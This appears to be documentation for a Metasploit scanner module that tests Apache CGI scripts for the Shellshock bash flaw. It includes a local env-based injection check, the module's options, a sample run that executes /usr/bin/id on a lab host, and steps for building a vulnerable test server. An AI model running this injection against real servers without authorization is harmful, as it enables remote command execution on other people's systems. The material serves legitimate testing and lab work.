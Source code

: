 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. This module targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition.

## Verification Steps
1. Do: run `msfconsole`
2. Do: set `RHOSTS [IP]`
3. Do: set `TARGETURI [URI]`
4. Do: `run`

### To check if a host is vulnerable to the attack
1. run
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
2. The shell will return the below text if the environment is vulnerable
``` 
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
``` 

## Options
1. `CMD`. The default setting is /usr/bin/id
2. `CVE`. The default setting is CVE-2014-6271 but valid options are CVE-2014-6271 or CVE-2014-6278
3. `HEADER`. The default setting is User-Agent
4. `METHOD`. The default setting is GET
5. `Proxies`. This option is not set by default
6. `RHOSTS`. This option is not set by default but must bet set to run the scanner. It will most likely be set to the IP address of the remote server that the module is run against.
7. `RPORT`. This option is set to 80 by default 
8. `SSL`. This option is not set by default
9. `TARGETURI`. This option  is not set by default but must be set to run the scanner. This option will be set to a cgi script on the target server.
10. `THREADS`. This option is set to 1 by default
11. `VHOST`. This option is not set by default

## Scenarios

### Ubuntu 12.04.5 LTS on Apache 2.2.22
  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/hw.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a vulnerable OS and Apache version

  To ensure that you have a vulnerable version of bash:
  1. Install Ubuntu 12.04.5 LTS from ISO (available at: http://cdimage.ubuntu.com/releases/12.04/release/)
  2. log into console 
  3. run 
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
  4. The shell will return the below text to confirm that the environment is vulnerable
```
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```
(NOTE: The next series of commands should be run as root or with sudo)
  5. Also install Apache2 from the apt repository with the following command
```
apt-get install apache2
```
  6. Enable cgi-mod in apache with the following command
```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
```
  7. Restart the apache service with the following command
```
service apache2 reload
```
  8. In your favorite text editor create a file (as root) in /usr/lib/cgi-bin called test.sh with the following contents
```
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Test!\n"
```
  9. Set the file to be executable with the following command
```
sudo chmod +x /usr/lib/cgi-bin/test.sh
```

